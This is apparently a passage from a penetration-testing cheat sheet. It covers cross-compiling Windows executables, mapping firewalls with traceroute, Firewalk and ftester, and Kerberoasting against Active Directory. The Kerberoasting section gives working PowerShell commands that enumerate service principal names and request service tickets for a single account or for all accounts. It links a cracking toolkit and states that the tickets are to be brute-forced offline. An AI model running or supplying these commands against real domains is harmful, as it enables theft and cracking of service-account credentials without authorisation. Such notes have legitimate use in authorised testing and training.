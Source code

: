 {% highlight PowerShell %}
x86_64-w64-mingw32-gcc -o Object_Name64.exe ProgramName.c
{% endhighlight %}

# Firewall

To find the firewall get internet connectivity;

{% highlight PowerShell %}
traceroute to 8.8.8.8
{% endhighlight %}

firewall will be one of the early hops. first will be the switch you are connected to.

Firewalk

{% highlight PowerShell %}
firewalk -p [protocol] -d [destination_port] -s [source_port][internal_IP] [gateway_IP]
{% endhighlight %}

ftester

{% highlight PowerShell %}
host 1 ./ftestd -i eth0 -v host 2 ./ftest -f ftest.conf -v -d 0.01 then ./freport ftest.log ftestd.log
{% endhighlight %}

# Kerberoasting

- Scan Active Directory for user accounts with SPN values set.
- Request service tickets from AD using SPN values
- Extract service tickets to memory and save to a file
- Brute force attack those passwords offline until cracked

https://github.com/nidem/kerberoast.git

Query tickets vis SPN’s

{% highlight PowerShell %}
PS C:\> setspn -T medin -Q */*
{% endhighlight %}

Request One ticket:

{% highlight PowerShell %}
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"
{% endhighlight %}

Request All the tickets

{% highlight PowerShell %}
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
{% endhighlight %}
